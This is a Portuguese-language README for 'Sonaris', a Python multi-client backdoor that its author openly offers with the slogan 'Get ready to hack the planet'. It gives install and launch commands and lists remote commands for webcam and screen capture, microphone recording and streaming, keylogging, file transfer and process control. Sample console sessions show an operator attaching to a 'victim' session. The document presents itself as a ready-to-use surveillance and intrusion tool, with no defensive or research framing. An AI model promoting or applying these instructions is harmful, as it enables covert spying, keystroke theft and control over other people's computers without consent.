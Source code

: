 ![badges](https://img.shields.io/badge/Python-v3.8-red)
<h1 align='center'><i>"Get ready to hack the planet"</i><img src='./image/logo.png'  height='350'></h1>

## Instalação
Baixe ou clone o repositório usando:
```bash
git clone https://github.com/zNairy/Sonaris
```
Em seguida instale os recursos necessários descritos em <b>requirements</b>, utilizando o pip de acordo com sua versão do Python.
```bash
python -m pip install -r requirements.txt
```
## Como usar
Inicie o lado servidor com <tt>python main.py</tt> para suportar cada vítima que se conectar à ele. Por padrão, tanto o servidor quanto cada cliente é conectado no endereço <tt>0.0.0.0:5000</tt> se nenhum argumento for passado em sua instância.
```python
class Server(object):
    """ server side backdoor """
    def __init__(self, host='0.0.0.0', port=5000):
```
Uma porta ou endereço diferente também podem ser passados por meio de argumentos, somente no lado servidor
```bash
python main.py -a 127.0.0.1 -p 1234
```
O lado cliente deve ser iniciado formalmente e seu endereço e porta são passados diretamente na instância do objeto.
## Funcionalidades
Assim como qualquer outro backdoor, o <i>Sonaris</i> conta com funcionalidades básicas de navegação, gerência das sessões e funcionamento interno do programa. Ao rodar o comando principal <tt>/commands</tt> lhe será mostrado a lista de todos os comandos possíveis.
```txt
  /attach
  /detach
  /sessions
  /sessioninfo
  /userinfo
  /rmsession
  /screenshot
  /webcamshot
  /download
  /upload
  /processlist
  /processinfo
  /terminateprocess
  /micrecord
  /micstream
  /kloggerstart
  /kloggerdump
  /kloggerstop
  /author
  /contact
  /version
  /internalcommands
  /commands
  ```
  Os comandos de gerência interna podem ser visualizados rodando o comando <tt>/internalcommands</tt>.
  ```
  /attach
  /detach
  /sessions
  /sessioninfo
  /userinfo
  /rmsession
  /author
  /contact
  /version
  /internalcommands
  /commands
  ```
  Alguns comandos são executados somente quando há alguma sessão anexada, caso contrário lhe será exibido algum descritivo do comando.
  ```bash
  znairy@sonaris:# /contact
Discord: zNairy#7181 | Github: https://github.com/zNairy/
  znairy@sonaris:# /micstream
Info: Starts a microphone streaming.
```
O backdoor é multi-client, o que significa que você pode ter mais de uma conexão simultânea.
Após receber alguma conexão, verifique se está ativa com o comando <tt>/sessions</tt>.
```bash
[*] Incoming connection from znairy:Linux
znairy@sonaris#:# /sessions
  -znairy
```
Se anexe à sessão da vítima desejada e seja feliz _;)_
```bash
znairy@sonaris:# /attach znairy
 You are attached to a section with znairy now!
znairy@sonaris:/home/znairy/Documents/Github/Sonaris# 
```
## Observações
O projeto ainda não está totalmente concluído, por isso se deseja fazer alguma contribuição ou crítica construtiva, faça um pull request ou entre em contato comigo pelo <a href="https://discord.com/" target="_blank">Discord</a>.
